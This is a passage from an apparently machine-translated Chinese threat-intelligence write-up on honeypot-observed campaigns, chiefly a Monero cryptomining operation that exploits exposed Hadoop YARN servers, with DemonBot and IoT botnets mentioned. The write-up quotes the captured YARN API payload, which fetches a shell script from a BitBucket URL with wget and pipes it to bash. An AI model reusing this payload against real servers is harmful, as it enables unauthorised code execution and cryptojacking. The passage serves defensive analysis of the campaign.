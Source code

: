 *![](img/21fb7edd76bee9bfd723451b18a2fddf.png)*

*上面命令序列图中的红色条表示新 DemonBot 活动“YSDKOP”每天的尝试计数，该活动以恶意软件二进制文件的名称命名。*

*不同蓝色阴影中的两个大峰代表与 Hadoop YARN 密码挖掘活动相关的多个漏洞，该活动已经运行了至少 8 个月；它于 2018 年 4 月首次被发现，最近将其下载基础设施转移到 BitBucket.org。猜测使用 Atlassian 的免费和公共服务来跟踪不同版本的 cryptominer 及其配置文件会更方便…*

*上面的命令序列图中显示的其他时间较短、攻击性较低的活动主要是 Linux/IoT 僵尸网络的感染尝试。下面讨论了一些似乎值得一提的问题。*

# *比特桶加密挖掘器*

*自今年 4 月以来，一项正在进行的 Monero cryptomining 活动一直被认为是积极滥用暴露的 Hadoop YARN 服务器，共开采了 566 XMR(约 60，000 美元)，并以平均每天 2 XMR (212 美元)的速度增长其收入。恶意代理或组目前正在滥用三台服务器，并且随着时间的推移，平均哈希速率保持在 400 千赫/秒。*

*利用 Hadoop YARN 漏洞，从公共 BitBucket 帐户下载并执行外壳脚本:*

```
*{“max-app-attempts”:2,”am-container-spec”:{“commands”:{“command”:”wget -q -O — [https://bitbucket.org/zrundr42/mygit/raw/master/zz.sh](https://bitbucket.org/zrundr42/mygit/raw/master/zz.sh) | bash & disown”}},”application-id”:”application_1802197302061_0095″,”application-type”:”YARN”,”application-name”:”hadoop”}*
```

*“zz.sh”脚本存档在(*2)中以供参考，它在最终从[同一个存储库](https://bitbucket.org/zrundr42/mygit/src/master/)下载一个名为“x_64”的二进制文件之前，在服务器上执行一些清理工作。*
